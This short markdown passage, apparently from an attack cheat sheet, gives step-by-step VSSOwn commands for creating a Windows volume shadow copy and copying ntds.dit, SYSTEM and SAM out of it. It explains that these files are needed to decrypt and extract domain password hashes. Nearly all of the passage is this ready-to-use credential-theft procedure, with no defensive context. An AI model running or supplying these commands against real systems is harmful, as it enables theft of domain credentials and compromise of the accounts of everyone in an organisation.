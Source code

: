 ## VSSOwn usage

VSSOwn is used to create a copy of the ntds.dit file. 

``cscript vssown.vbs /status``

``cscript vssown.vbs /start``

``cscript vssown.vbs /create /c``

``copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[x]\windows\ntds\ntds.dit ntdsbackup.dit``

``copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[x]\windows\system32\config\SYSTEM systembackup.bak``

``copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[x]\windows\system32\config\SAM sambackup.bak``

From the above commands, we copied the ntds, SYSTEM and SAM. The SYSTEM and SAM portions will be needed becaue they contain the decryption keys needed to extract the hashes from the 
ntds.dit file. 

Once we have these, we can stop the VSSOwn tool

``cscript vssown.vbs /stop``
